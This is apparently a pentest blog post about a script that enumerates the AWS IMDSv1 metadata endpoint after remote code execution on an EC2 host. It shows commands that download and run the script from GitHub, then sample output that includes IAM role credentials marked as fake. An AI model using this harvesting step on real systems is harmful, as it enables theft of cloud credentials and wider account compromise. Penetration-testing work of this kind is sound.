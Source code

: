 ```yaml
---
layout: post
title: AWS IMDSv1 enumeration script
---
```


Small script used in the context of pentest once RCE on a server hosted in AWS EC2 was achived.
Recusifly walks the IMDS (metadata) endpoint and print to stdout.
See: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
Repo: https://github.com/zrthstr/random_helper_scripts/

*on a AWS host with IMDSv1 enabled*
```
# fetch
wget https://raw.githubusercontent.com/zrthstr/random_helper_scripts/main/AWS_IMDSv1_enum.py

# run
python3 AWS_IMDSv1_enum.py

[+] Trying meta-data
http://169.254.169.254/latest/meta-data/ami-id:
 => ami-01b29208fakeida10
http://169.254.169.254/latest/meta-data/ami-launch-index:
 => 0
http://169.254.169.254/latest/meta-data/ami-manifest-path:
 => (unknown)
http://169.254.169.254/latest/meta-data/block-device-mapping/ami:
 => /dev/xvda
http://169.254.169.254/latest/meta-data/block-device-mapping/root:
 => /dev/xvda
http://169.254.169.254/latest/meta-data/events/maintenance/history:
 => []
http://169.254.169.254/latest/meta-data/events/maintenance/scheduled:
 => []
http://169.254.169.254/latest/meta-data/hostname:
 => ip-172-26-2-10.us-west-2.compute.internal
http://169.254.169.254/latest/meta-data/iam/info:
 => {
  "Code" : "Success",
  "LastUpdated" : "2023-10-17T17:18:11Z",
  "InstanceProfileArn" : "arn:aws:iam::2982fake20309:instance-profile/AmazonLightsailInstanceProfile",
  "InstanceProfileId" : "AIPHSJISJLL3fakeLFDD"
}
http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonLightsailInstanceRole:
 => {
  "Code" : "Success",
  "LastUpdated" : "2023-10-17T17:19:14Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIAKSK2A0fakeGH3A",
  "SecretAccessKey" : "R4MlZ9SfJ2xN1yHdV6oQthiskeyisfakeA",
  "Token" : "K0p3RzZ1QlhTWnRlthisisafakekeyY4eDQ3SGFMbFdzZmV3eUN0VzhZalYyVUl5NnROdS8zSVk2OUx3eFhuY0pCSmNUZzhhbGZhN09NUwK0p3RzZ1QlhTWnRlb1Y4eDQ3SGFMbFdzZmV3eUN0VzhZalYyVUl5NnROdS8zSVk2OUx3eFhuY0pCSmNUZzhhbGZhN09NUw[...]=",
  "Expiration" : "2023-10-17T23:11:49Z"
}
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/info:
 => {
  "Code" : "Success",
  "LastUpdated" : "2023-10-17T17:08:25Z",
[...]
```

